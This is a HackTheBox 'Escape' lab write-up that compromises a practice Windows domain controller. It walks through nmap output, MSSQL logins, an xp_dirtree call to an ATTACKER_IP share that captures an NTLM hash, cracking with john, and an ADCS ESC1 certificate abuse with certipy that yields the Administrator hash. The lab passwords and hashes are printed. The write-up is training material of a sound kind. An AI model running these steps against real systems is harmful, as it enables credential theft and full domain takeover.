


Lets start with an aggresive nmap scan on all ports

```
└─$ nmap -sC -sV -Pn -A -T4 10.10.11.202 -p-

PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2023-04-01 06:24:35Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: sequel.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=dc.sequel.htb
| Subject Alternative Name: othername:<unsupported>, DNS:dc.sequel.htb
| Not valid before: 2022-11-18T21:20:35
|_Not valid after:  2023-11-18T21:20:35
|_ssl-date: 2023-04-01T06:25:58+00:00; +8h00m01s from scanner time.
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: sequel.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2023-04-01T06:25:57+00:00; +8h00m00s from scanner time.
| ssl-cert: Subject: commonName=dc.sequel.htb
| Subject Alternative Name: othername:<unsupported>, DNS:dc.sequel.htb
| Not valid before: 2022-11-18T21:20:35
|_Not valid after:  2023-11-18T21:20:35
1433/tcp open  ms-sql-s      Microsoft SQL Server 2019 15.00.2000.00; RTM
|_ssl-date: 2023-04-01T06:25:58+00:00; +8h00m01s from scanner time.
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Not valid before: 2023-03-31T16:55:58
|_Not valid after:  2053-03-31T16:55:58
| ms-sql-ntlm-info:
|   Target_Name: sequel
|   NetBIOS_Domain_Name: sequel
|   NetBIOS_Computer_Name: DC
|   DNS_Domain_Name: sequel.htb
|   DNS_Computer_Name: dc.sequel.htb
|   DNS_Tree_Name: sequel.htb
|_  Product_Version: 10.0.17763
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: sequel.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2023-04-01T06:25:58+00:00; +8h00m01s from scanner time.
| ssl-cert: Subject: commonName=dc.sequel.htb
| Subject Alternative Name: othername:<unsupported>, DNS:dc.sequel.htb
| Not valid before: 2022-11-18T21:20:35
|_Not valid after:  2023-11-18T21:20:35
3269/tcp open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: sequel.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2023-04-01T06:25:57+00:00; +8h00m00s from scanner time.
| ssl-cert: Subject: commonName=dc.sequel.htb
| Subject Alternative Name: othername:<unsupported>, DNS:dc.sequel.htb
| Not valid before: 2022-11-18T21:20:35
|_Not valid after:  2023-11-18T21:20:35
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 8h00m00s, deviation: 0s, median: 7h59m59s
| ms-sql-info:
|   10.10.11.202:1433:
|     Version:
|       name: Microsoft SQL Server 2019 RTM
|       number: 15.00.2000.00
|       Product: Microsoft SQL Server 2019
|       Service pack level: RTM
|       Post-SP patches applied: false
|_    TCP port: 1433
| smb2-time:
|   date: 2023-04-01T06:25:16
|_  start_date: N/A
| smb2-security-mode:
|   3.1.1:
|_    Message signing enabled and required

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 96.33 seconds

┌──(parallels㉿diplipito)-[~/Desktop/htb/Escape]
┌──(parallels㉿diplipito)-[~/Desktop/htb/Escape]
└─$

┌──(parallels㉿diplipito)-[~/Desktop/htb/Escape]
└─$ nmap -sC -sV -Pn -A -T4 10.10.11.202 -p-
Starting Nmap 7.92 ( https://nmap.org ) at 2023-04-01 02:26 +04
Stats: 0:01:36 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 6.79% done; ETC: 02:49 (0:21:58 remaining)
Stats: 0:03:54 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 12.48% done; ETC: 02:57 (0:27:20 remaining)
Stats: 0:03:54 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 12.50% done; ETC: 02:57 (0:27:18 remaining)
Stats: 0:05:05 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 17.15% done; ETC: 02:55 (0:24:33 remaining)
Stats: 0:06:28 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 18.92% done; ETC: 03:00 (0:27:38 remaining)
Stats: 0:08:17 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 23.04% done; ETC: 03:02 (0:27:40 remaining)
Stats: 0:11:01 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 29.72% done; ETC: 03:03 (0:26:03 remaining)
Stats: 0:15:42 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 40.79% done; ETC: 03:04 (0:22:47 remaining)
Stats: 0:17:52 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 44.32% done; ETC: 03:06 (0:22:27 remaining)
Stats: 0:33:33 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 70.36% done; ETC: 03:13 (0:14:08 remaining)
Stats: 0:36:44 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 76.43% done; ETC: 03:14 (0:11:20 remaining)
Stats: 0:38:43 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 79.52% done; ETC: 03:14 (0:09:58 remaining)
Stats: 0:39:43 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 79.56% done; ETC: 03:16 (0:10:12 remaining)
Stats: 0:40:11 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 79.57% done; ETC: 03:16 (0:10:19 remaining)
Stats: 0:40:39 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 79.59% done; ETC: 03:17 (0:10:26 remaining)
Stats: 0:43:54 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 81.65% done; ETC: 03:20 (0:09:52 remaining)
Stats: 0:46:13 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 88.07% done; ETC: 03:18 (0:06:16 remaining)
Stats: 0:54:02 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 70.59% done; ETC: 03:20 (0:00:15 remaining)
Stats: 0:54:03 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 70.59% done; ETC: 03:20 (0:00:15 remaining)
Stats: 0:54:27 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan
NSE Timing: About 99.53% done; ETC: 03:20 (0:00:00 remaining)
Stats: 0:54:44 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan
NSE Timing: About 99.57% done; ETC: 03:21 (0:00:00 remaining)
Stats: 0:55:20 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan
NSE Timing: About 89.71% done; ETC: 03:21 (0:00:00 remaining)
Nmap scan report for 10.10.11.202
Host is up (0.14s latency).
Not shown: 65518 filtered tcp ports (no-response)
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2023-04-01 07:19:52Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: sequel.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=dc.sequel.htb
| Subject Alternative Name: othername:<unsupported>, DNS:dc.sequel.htb
| Not valid before: 2022-11-18T21:20:35
|_Not valid after:  2023-11-18T21:20:35
|_ssl-date: 2023-04-01T07:21:45+00:00; +7h59m58s from scanner time.
445/tcp   open  microsoft-ds?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: sequel.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2023-04-01T07:21:42+00:00; +7h59m59s from scanner time.
| ssl-cert: Subject: commonName=dc.sequel.htb
| Subject Alternative Name: othername:<unsupported>, DNS:dc.sequel.htb
| Not valid before: 2022-11-18T21:20:35
|_Not valid after:  2023-11-18T21:20:35
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: sequel.htb0., Site: Default-First-Site-Name)
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=dc.sequel.htb
| Subject Alternative Name: othername:<unsupported>, DNS:dc.sequel.htb
| Not valid before: 2022-11-18T21:20:35
|_Not valid after:  2023-11-18T21:20:35
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp  open  mc-nmf        .NET Message Framing
49667/tcp open  unknown
49687/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49688/tcp open  unknown
49701/tcp open  unknown
49712/tcp open  unknown
53399/tcp open  unknown
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode:
|   3.1.1:
|_    Message signing enabled and required
| smb2-time:
|   date: 2023-04-01T07:20:36
|_  start_date: N/A
|_clock-skew: mean: 7h59m58s, deviation: 1s, median: 7h59m58s
| ms-sql-info:
|   10.10.11.202:1433:
|     Version:
|       name: Microsoft SQL Server 2019 RTM
|       number: 15.00.2000.00
|       Product: Microsoft SQL Server 2019
|       Service pack level: RTM
|       Post-SP patches applied: false
|_    TCP port: 1433

```

We can see that some ports are open. I started exploiting SMB using crackmapexec. I tried logging in with null sessions but it didn't work but it turned out that anonymous login in turned on. Then I enumerated shares and connected to the service using smbclient and found interesting pdf file on _Public_ share with mssql username and password.


Let's test the credentials from pdf file. I used impacket-mssqlclient for this.

```
└─$ impacket-mssqlclient PublicUser:GuestUserCantWrite1@10.10.11.202
```

I selected all of the tablenames but nothing interesting here.

unfortunately this user doesn't have a privilege to use or enable xp_cmdshell.


Another attack method is NTLM Realy attack. We need smbserver for this, we can use _impacket-smbserver_

```
#Run this command on attackers machine to start listening smb connections
impacket-smbserver fakesharename ./fakesharepath -smb2support

#Run this command on msqql server and smbserver will catch the NTLM hash
xp_dirtree '\\ATTACKER_IP\fakesharename'

```



```
# smbserver output

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
[*] Incoming connection (10.10.11.202,61864)
[*] AUTHENTICATE_MESSAGE (sequel\sql_svc,DC)
[*] User DC\sql_svc authenticated successfully
[*] sql_svc::sequel:aaaaaaaaaaaaaaaa:53e34c347af2c07f5413cc042237290b:01010000000000008017c5fb1c64d901b0f15ff7d02f8e71000000000100100063007300610050005500580053006f000300100063007300610050005500580053006f000200100045004e00710073006f0061007a0077000400100045004e00710073006f0061007a007700070008008017c5fb1c64d90106000400020000000800300030000000000000000000000000300000aae750a18cfe418e6ca2fb4ae1e318ae2ab070db86a852b81988d8ef0b04d08e0a0010000000000000000000000000000000000009001e0063006900660073002f00310030002e00310030002e00310035002e0039000000000000000000
[*] Closing down connection (10.10.11.202,61864)
[*] Remaining connections []
```

JohnTheRipper crack the hash so easily using _rockyou_ wordlist

```
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt

Using default input encoding: UTF-8
Loaded 1 password hash (netntlmv2, NTLMv2 C/R [MD4 HMAC-MD5 32/64])
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
0g 0:00:00:05 32.04% (ETA: 02:12:34) 0g/s 948633p/s 948633c/s 948633C/s peawee2..peachesca
REGGIE1234ronnie (sql_svc)
1g 0:00:00:11 DONE (2023-04-01 02:12) 0.08517g/s 911656p/s 911656c/s 911656C/s RENZOJAVIER..RBDesloMEJOR
Use the "--show --format=netntlmv2" options to display all of the cracked passwords reliably
Session completed
```

As we can see from nmap output, WinRM port is also open (port 5985). I connected to it using _Evil-WinRM_ and the credentials which I obtained and cracked from NTLM Relay Attack


I digged into _sql_svc_ user folders (Documents,Desktop and etc..), nothing interesting there but I found _SQLServer/Logs_ folder inside C drive with _ERRORLOG.BAK_ file inside.




After reading the ERRORLOG.BAK file I found 2 new usersnames.


I bruteforced passwords for this usernames but all of them was unusuccessful. Then I just thought that _NuclearMosquito3_ looked like a password and I just tried to use it with Ryan.Cooper username and Boom💥

User flag is on Desktop ✅


Okay. It's time for privilege escalation.I used [winPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS), but nothing came up.
I followed _windows hardening_ chapter on [Hacktricks](https://book.hacktricks.xyz/windows-hardening/) and I found vulnerabilities from [ADCS chapter](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/ad-certificates/domain-escalation).

First I used certipy to enumerate certificates

```
└─$ certipy find -u Ryan.Cooper -p NuclearMosquito3 -dc-ip 10.10.11.202
Certipy v4.4.0 - by Oliver Lyak (ly4k)

[*] Finding certificate templates
[*] Found 34 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 12 enabled certificate templates
[*] Trying to get CA configuration for 'sequel-DC-CA' via CSRA
[!] Got error while trying to get CA configuration for 'sequel-DC-CA' via CSRA: CASessionError: code: 0x80070005 - E_ACCESSDENIED - General access denied error.
[*] Trying to get CA configuration for 'sequel-DC-CA' via RRP
[*] Got CA configuration for 'sequel-DC-CA'
[*] Saved BloodHound data to '20230405012527_Certipy.zip'. Drag and drop the file into the BloodHound GUI from @ly4k
[*] Saved text output to '20230405012527_Certipy.txt'
[*] Saved JSON output to '20230405012527_Certipy.json'
```

After checking output files, we can see one vulnerable certificate

```
  "Certificate Templates": {
    "0": {
      "Template Name": "UserAuthentication",
      "Display Name": "UserAuthentication",
      "Certificate Authorities": [
        "sequel-DC-CA"
      ],
      "Enabled": true,
      "Client Authentication": true,
      "Enrollment Agent": false,
      "Any Purpose": false,
      "Enrollee Supplies Subject": true,
      "Certificate Name Flag": [
        "EnrolleeSuppliesSubject"
      ],
      "Enrollment Flag": [
        "IncludeSymmetricAlgorithms",
        "PublishToDs"
      ],
      "Private Key Flag": [
        "ExportableKey"
      ],
      "Extended Key Usage": [
        "Client Authentication",
        "Secure Email",
        "Encrypting File System"
      ],
      "Requires Manager Approval": false,
      "Requires Key Archival": false,
      "Authorized Signatures Required": 0,
      "Validity Period": "10 years",
      "Renewal Period": "6 weeks",
      "Minimum RSA Key Length": 2048,
      "Permissions": {
        "Enrollment Permissions": {
          "Enrollment Rights": [
            "SEQUEL.HTB\\Domain Admins",
            "SEQUEL.HTB\\Domain Users",
            "SEQUEL.HTB\\Enterprise Admins"
          ]
        },
        "Object Control Permissions": {
          "Owner": "SEQUEL.HTB\\Administrator",
          "Write Owner Principals": [
            "SEQUEL.HTB\\Domain Admins",
            "SEQUEL.HTB\\Enterprise Admins",
            "SEQUEL.HTB\\Administrator"
          ],
          "Write Dacl Principals": [
            "SEQUEL.HTB\\Domain Admins",
            "SEQUEL.HTB\\Enterprise Admins",
            "SEQUEL.HTB\\Administrator"
          ],
          "Write Property Principals": [
            "SEQUEL.HTB\\Domain Admins",
            "SEQUEL.HTB\\Enterprise Admins",
            "SEQUEL.HTB\\Administrator"
          ]
        }
      },
      "[!] Vulnerabilities": {
        "ESC1": "'SEQUEL.HTB\\\\Domain Users' can enroll, enrollee supplies subject and template allows client authentication"
      }
    }
```

[Explanation of the vulnerability](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/ad-certificates/domain-escalation)

Then we can request administrator certificate using the following command

```
└─$ certipy req -username "Ryan.Cooper" -password "NuclearMosquito3" -ca "sequel-DC-CA" -target 10.10.11.202 -template UserAuthentication -upn Administrator
Certipy v4.4.0 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Successfully requested certificate
[*] Request ID is 12
[*] Got certificate with UPN 'Administrator'
[*] Certificate has no object SID
[*] Saved certificate and private key to 'administrator.pfx'
```

And then try to authenticate with it

If you get the error try using the ntpdate and run certipy again

```
└─$ sudo ntpdate 10.10.11.202
2023-04-05 09:41:18.350936 (+0400) +28799.588114 +/- 0.042037 10.10.11.202 s1 no-leap
CLOCK: time stepped by 28799.588114

└─$ certipy auth -pfx administrator.pfx -username Administrator -domain "sequel.htb" -dc-ip 10.10.11.202
Certipy v4.4.0 - by Oliver Lyak (ly4k)

[*] Using principal: administrator@sequel.htb
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@sequel.htb': aad3b435b51404eeaad3b435b51404ee:a52f78e4c751e5f5e17e1e9f3e58f4ee
```

And we have the administrator hash 🥳 We can authenticate with the NT part of the hash using evil-winrm and get the root flag

